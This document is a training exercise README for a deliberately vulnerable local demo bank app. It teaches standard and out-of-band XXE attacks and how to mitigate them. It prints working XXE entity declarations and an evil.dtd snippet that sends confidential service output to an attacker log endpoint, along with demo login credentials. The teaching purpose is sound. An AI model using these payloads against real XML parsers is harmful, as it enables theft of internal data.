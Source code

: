 # Exercise 5 - XML External Entities (XXE) 
Exercise to help you understand XEE exploits and their mitigations

## Setup and Start Applications
1. check out exercise2 
   * choose branch 'exercise2' in the 'VCS -> Git -> Branches' menu within IntelliJ
1. start the v-bank-app in debug mode
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
1. start the attacker-app
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
   
## Brief description of the exercise
The applications in this scenario are:
* the v-bank application at http://vbank.127.0.0.1.xip.io:8080 
* the attacker application at http://attack.127.0.0.1.xip.io:9090/xxe, this holds the (malicaiout) XML payloads and DTDs
  * For the standard XXE scenario:
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_standard.xml 
  * For the out-of-band XXE scenario
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_out-of-band.xml
    * And the DTD: http://attack.127.0.0.1.xip.io:9090/xml/evil.dtd
* The victim service at: http://service.127.0.0.1.xip.io:9090/victim  
    * This service should normally not be available to the client calling the v-bank application. 
    * The response of this service is the confidential data the attacker steals or leaks by exploiting the XXE vulnerability.
    With the help of the XXE exploit the attacker manages to call the service and
      * Standard XXE: Place the victim's output in the processed document and put in the note of resulting transaction.
      * Out-of-band XXE: Send the victim's output to the logger service at http://attack.127.0.0.1.xip.io:9090/log (you can see what has been logged at http://attack.127.0.0.1.xip.io:9090/viewlog)
\
But first you have to find the XXE vulnerability in the v-bank-app.

## Look for XXE vulnerabilities

### Hint 
XXE vulnerabilities are to be found where XML parsing/processing takes place.

### Present vulnerability 
_BankController.uploadTransactions(...)_ where the processing of the uploaded XML from the home page takes place.

## Exploit to understand

For the exploit we will use the XML files downloadable from http://attack.127.0.0.1.xip.io:9090/xxe 
Please download the beolow files to a folder on your local drive:
* transactions.xml: The normal payload creating 2 transactions;
* xxe_call_service.xml: the XXE payload calling the victim service and parsing its response/output into the note field of the transaction;
* xxe_call_service_out-of-band.xml: XXE payload also calling the victim service whose response/output it sends to the attacker's log service.  

1. Test
   * Login as bob (bob / h3ll0bob) and upload transactions.xml. 
   * You should see 2 transactions in the transaction history page.

1. Standard XXE
   * Logged in as bob, please upload xxe_standard.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a standard XXE attack!)"
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the output of the _victim_ _service_ as its value. When processing the XML the _&victim_ entity reference actually behaves as a constant initialized with the output or response of the system resource at _http://service.127.0.0.1.xip.io:9090/victim_. 
     * Then because of the ```<note>&victim;</note>``` the XML parser places it into the the note field. When the XML processor finally creates the object of class _Transaction_ its _note_ property will be set accordingly.
    
1. Out-of-Band XXE    
   * Logged in as bob, please upload xxe_out-of-band.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a Out-of-Band XXE attack!)"
     * Please check the logs sent to the log service at: http://attack.127.0.0.1.xip.io:9090/viewlog
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the outout of the _victim_ _service_ as its value
     * Then in the_evil.dtd used the %victim; parameter entity (parameter entities are denoted by % and can be reused within the DTD) to create another %send; entity which when evaluated will send the value of %victim; to the log service at http://attack.127.0.0.1.xip.io:9090/log 
     ```<?xml version="1.0" encoding="UTF-8"?>
            <!ENTITY % all "<!ENTITY send SYSTEM 'http://attack.127.0.0.1.xip.io:9090/log?msg=%victim;'>">
            %all;
     ```
     * Because the output of the attacked service (normally confidential information) is send to the log service and is not received with the response it is called Out-of-Band XXE. 
       (It is also called Blind XXE) 
       
 1. Tasks
    * (1) Add a lexical parser to preprocess the XML and fail if any entities are found 
    * (1) Configure the XML parser to:
      * disallow external DTDs so that it cannot not load the evil DTD
      * disallow entities in DTDs so that no system entities can be created within the DTD from files or URLs
      * allow secure XML processing: https://docs.oracle.com/javase/7/docs/api/javax/xml/XMLConstants.html#FEATURE_SECURE_PROCESSING  
      __The problem with this approach is that there are lots of XML processor APIs (SAX, DOM, Stax, etc) and implementations (Xalan, Xerces, etc) and each has its own set of supported configuration features. For example, 
      with the current configuration I could not set any property on the parser to disallow external DTDs or entities and the SECURE_XML_PROCESSING feature did nothing. Therefore, you need to make sure that
      the XML stream or file does not contain entities before passed to the XML processor API (you can do it with the lexical parser).__
    * Hints:
      * (1) create a new class: 
       ```
       public class AntiEntityScanner {
       
           private static final String LEXICAL_HANDLER = "http://xml.org/sax/properties/lexical-handler";
       
           public static void check(final InputStream data) throws Exception {
               final SAXParser saxParser = SAXParserFactory.newInstance().newSAXParser();
               final ElementHandler handler = new ElementHandler();
               saxParser.getXMLReader().setProperty(LEXICAL_HANDLER, handler);
               saxParser.parse(data, handler);
           }
       
           public static final class ElementHandler extends org.xml.sax.ext.DefaultHandler2 {
               @Override
               public void startEntity(final String name) throws SAXException {
                   throw new IllegalArgumentException("Entities are illegal");
               }
           }
       }
       ```
     * (1) and in _BankController.uploadTransactions(...)_:
       ```
       InputStream incomingXML = file.getInputStream();
       //scan for entities in incoming XML without parsing the content
       AntiEntityScanner.check(incomingXML);
       ```
The solution is available in the exercise5-solution branch at https://github.com/vargadan/v-bank/tree/exercise5-solution
\
You may find more on XXE mitigation at https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md
